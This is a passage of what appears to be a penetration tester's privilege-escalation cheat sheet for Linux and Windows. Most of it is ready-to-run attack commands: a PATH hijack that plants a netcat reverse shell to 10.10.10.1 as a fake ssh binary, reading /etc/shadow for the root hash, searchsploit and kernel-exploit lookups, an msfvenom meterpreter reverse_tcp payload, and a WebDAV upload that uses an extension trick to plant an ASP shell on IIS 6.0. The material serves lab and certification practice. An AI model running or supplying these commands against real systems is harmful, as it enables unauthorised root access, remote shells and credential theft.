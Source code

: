 -   You may find a command is being executed by the root user, you may be able to modify the system PATH environment variable
    to execute your command instead.  In the example below, ssh is replaced with a reverse shell SUID connecting to 10.10.10.1 on 
    port 4444.
    
         set PATH="/tmp:/usr/local/bin:/usr/bin:/bin"
         echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.1 4444 >/tmp/f" >> /tmp/ssh
         chmod +x ssh

-   SearchSploit  

              searchsploit –uncsearchsploit apache 2.2  
              searchsploit "Linux Kernel"  
              searchsploit linux 2.6 | grep -i ubuntu | grep local  
              searchsploit slmail

 -   Kernel Exploit Suggestions for Kernel Version 3.0.0  
 
     `./usr/share/linux-exploit-suggester/Linux_Exploit_Suggester.pl -k 3.0.0`

-   Precompiled Linux Kernel Exploits  - ***Super handy if GCC is not installed on the target machine!***

    [*https://www.kernel-exploits.com/*](https://www.kernel-exploits.com/)    

-   Collect root password

    `cat /etc/shadow |grep root`
    
-   Find and display the proof.txt or flag.txt - LOOT!

            cat `find / -name proof.txt -print`

-   Windows Privilege Escalation
    --------------------------------------------------------------------------------------------------------------------------

-   Windows Privilege Escalation resource
    http://www.fuzzysecurity.com/tutorials/16.html

-   Try the getsystem command using meterpreter - rarely works but is worth a try.

    `meterpreter > getsystem`

-   Metasploit Meterpreter Privilege Escalation Guide
    https://www.offensive-security.com/metasploit-unleashed/privilege-escalation/

-   Windows Server 2003 and IIS 6.0 WEBDAV Exploiting
http://www.r00tsec.com/2011/09/exploiting-microsoft-iis-version-60.html

         msfvenom -p windows/meterpreter/reverse_tcp LHOST=1.2.3.4 LPORT=443 -f asp > aspshell.txt

         cadavar http://$ip
         dav:/> put aspshell.txt
         Uploading aspshell.txt to `/aspshell.txt':
         Progress: [=============================>] 100.0% of 38468 bytes succeeded.
         dav:/> copy aspshell.txt aspshell3.asp;.txt
         Copying `/aspshell3.txt' to `/aspshell3.asp%3b.txt':  succeeded.
         dav:/> exit
